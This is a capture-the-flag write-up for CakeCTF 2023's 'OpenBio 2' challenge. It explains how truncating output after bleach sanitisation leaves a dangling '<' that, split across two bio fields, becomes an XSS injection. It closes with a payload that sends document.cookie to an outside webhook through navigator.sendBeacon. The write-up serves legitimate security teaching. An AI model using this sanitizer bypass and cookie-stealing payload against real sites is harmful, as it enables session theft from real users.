 # OpenBio 2

## Description

> Share your Bio [here](http://openbio2.2023.cakectf.com:8011/)!
>
> \* Please [report us](http://openbio2.2023.cakectf.com:8012/) if you find any sensitive/harmful bio.
>
> Attachments: openbio2_3f76afa06e9c42e3ba9eed5866f8d97a.tar.gz

<details><summary>Attachment file tree</summary>

```console
$ tree openbio2
openbio2
├── crawler
│   ├── crawler.js
│   ├── Dockerfile
│   └── package.json
├── docker-compose.yml
├── redis
│   ├── Dockerfile
│   └── redis.conf
├── report
│   ├── app.py
│   ├── Dockerfile
│   ├── templates
│   │   └── index.html
│   └── uwsgi.ini
└── service
    ├── app.py
    ├── Dockerfile
    ├── templates
    │   ├── bio.html
    │   └── index.html
    └── uwsgi.ini

7 directories, 15 files
```

</details>

## Solution

Looking at the source code:

```javascript
// openbio2/crawler/crawler.js

    // (snip)

    const page = await browser.newPage();
    try {
        await page.setCookie({
            name: 'flag',
            value: flag,
            domain: new URL(base_url).hostname,
            httpOnly: false,
            secure: false
        });

    // (snip)
```

The purpose of this challenge is to get the flag set in the crawler's cookie.

```python
# openbio2/service/app.py

# (snip)

@app.route('/', methods=['GET', 'POST'])
def index():
    if flask.request.method == 'GET':
        return flask.render_template("index.html")

    err = None
    bio_id = os.urandom(32).hex()
    name = flask.request.form.get('name', 'Anonymous')
    email = flask.request.form.get('email', '')
    bio1 = flask.request.form.get('bio1', '')
    bio2 = flask.request.form.get('bio2', '')
    if len(name) > 20:
        err = "Name is too long"
    elif len(email) > 40:
        err = "Email is too long"
    elif len(bio1) > 1001 or len(bio2) > 1001:
        err = "Bio is too long"

    if err:
        return flask.render_template("index.html", err=err)

    db().set(bio_id, json.dumps({
        'name': name, 'email': email, 'bio1': bio1, 'bio2': bio2
    }))
    return flask.redirect(f"/bio/{bio_id}")

@app.route('/bio/<bio_id>')
def bio(bio_id):
    if not re.match("^[0-9a-f]{64}$", bio_id):
        return flask.redirect("/")

    bio = db().get(bio_id)
    if bio is None:
        return flask.redirect("/")

    bio = json.loads(bio)
    name = bio['name']
    email = bio['email']
    bio1 = bleach.linkify(bleach.clean(bio['bio1'], strip=True))[:10000]
    bio2 = bleach.linkify(bleach.clean(bio['bio2'], strip=True))[:10000]
    return flask.render_template("bio.html",
                                 name=name, email=email, bio1=bio1, bio2=bio2)

# (snip)
```

The bio1 and bio2 input value is required to have a length of less than or equal to 1001.
These values are sanitized by the [bleach](https://github.com/mozilla/bleach) library, and truncated to a length of 10000 characters.
The source code of `bleach.linkify` and `bleach.clean` is [bleach/bleach/\_\_init\_\_.py at v6.1.0](https://github.com/mozilla/bleach/blob/v6.1.0/bleach/__init__.py).

```html
<!-- web/openbio2/service/templates/bio.html -->
<!-- (snip) -->
      <div id="bio">{{ bio1 | safe }}{{ bio2 | safe }}</div>
<!-- (snip) -->
```

If I can do the following, it seems like XSS can be occured.

- bio1 variable: the last character is `<`
- bio2 variable: `img src=1 onerror=alert(1)>`

```python
>>> import bleach
>>> tmp = """!@#$%^&*()_+{}|[]\:";'<>?,./"""; bleach.linkify(bleach.clean(tmp, strip=True))
'!@#$%^&amp;*()_+{}|[]\\:";\'&lt;&gt;?,./'
>>> # replace & to &amp, < to &lt;, > to &gt;
>>> tmp = "a.co"; bleach.linkify(bleach.clean(tmp, strip=True))
'<a href="http://a.co" rel="nofollow">a.co</a>'

>>> def check(x):
...     sanitized = bleach.linkify(bleach.clean(x, strip=True))
...     print(f"orginal len: {len(x)}, len: {len(sanitized)}, last: {sanitized[9999] if len(sanitized) >= 10000 else None}")
...
>>> check("a.co")
orginal len: 4, len: 45, last: None
>>> check("&a.co")
orginal len: 5, len: 50, last: None
>>> check("&a.co"*200)
orginal len: 1000, len: 10000, last: >
>>> check("<>"+"&a.co"*200)
orginal len: 1002, len: 10008, last: >
>>> check("<>"+"&a.co"*199)
orginal len: 997, len: 9958, last: None
>>> check("<>a.co"+"&a.co"*199)
orginal len: 1001, len: 10003, last: <
```

I can get the flag by using the following input:

bio1 (without newline):

```text
<>a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co&a.co
```

bio2 (`>` is not needed because the browser completes it):

```text
img src=1 onerror="navigator.sendBeacon('https://webhook.site/<your webhook>',document.cookie)"
```
